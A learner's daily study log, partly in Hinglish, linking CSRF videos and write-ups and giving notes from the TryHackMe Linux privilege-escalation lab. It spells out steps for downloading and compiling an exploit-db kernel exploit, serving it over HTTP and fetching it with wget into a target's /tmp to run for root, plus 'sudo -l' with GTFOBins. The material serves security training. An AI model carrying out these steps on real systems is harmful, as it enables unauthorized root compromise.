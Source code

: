 🎯 Day 9 Task


✅ CSRF Video


https://www.youtube.com/watch?v=iyE9UsBF64w

✅ POC


https://www.youtube.com/watch?v=TGJ4I-F5LhE


https://www.youtube.com/watch?v=YPnejsLPfVk


https://www.youtube.com/watch?v=gBdiKqNPQS8


https://www.youtube.com/watch?v=5jHIUTEdpvI



✅ CSRF Writeup 


https://infosecwriteups.com/understanding-exploiting-cross-site-request-forgery-csrf-vulnerabilities-935952375b71


https://huntr.dev/bounties/f952af13-8042-457d-b8d8-bd338987dc02/


✅ Tweet 


https://twitter.com/rootxyash/status/1480126074994368512


https://twitter.com/mavericknerd/status/1214071332083658757


-----------------------------------------------------------------------------------
🔁 THM Room 


➡ Working on Linux PrivEsc Room


✅ Completed till Task 6 Privilege Escalation Sudo 


https://tryhackme.com/room/linprivesc


For more Info check out my Github Repo


https://github.com/Imran407704/Learn365/


Some Tips :

The Kernel exploit methodology is simple :

1. Identify the kernel version
2. Search and find an exploit code for the kernel version of the target system
3. Run the exploit

Remember that: a failed kernel exploit can lead to a system crash :P

The Sudo exploit methodology :

1. First check how many programs normal user run with sudo rights -: sudo -l
2. go to https://gtfobins.github.io & search the binary file which have sudo rights  
3. Paste that Command & You are Root User :)


 Some Keywords : 
 
 
 |  String            | Meaning                                                                |
| ----------------- | --------------------------------- |
| Local system | My Computer |
| EXPL_FILE | Name of that Particular Exploit (in my case the name of exploit is 37292) |
| IP:PORT | VPN IP (If you are on tryhackme) / local system IP:jo port se http server bana tha |
| - (hypen) | hypen ke baad command hai :) |
 
 
My Steps for Kernel Exploit :

1. Exploit ko local system me - wget https://www.exploit-db.com/exploits/EXPL_FILE se download kiya  
2. gcc se complile kiya - gcc 12345.c exploit 
3. local system me http server banaya - sudo python3 -m http.server
4. & Then target machine ke tmp (temp) directory me jaana hai bcoz yehi directory aisi hai jisme hamey write ki permission hai mai ne home directory me bhi check kiya but waha par exploit ko local machine se transfer nhi kar pa rha tha - wget http://IP:PORT/exploit (remember that http use karna hai not https )
5. ./exploit 
ROOT User :)


My Steps for Sudo Exploit :


1. First check how many programs normal user run with sudo rights - sudo -l
2. go to https://gtfobins.github.io & search the binary file which have sudo rights  

------------------------------------------------------------------------------------------------------------------------------------------------------

#bugbounty #privesc #infosec #learn365
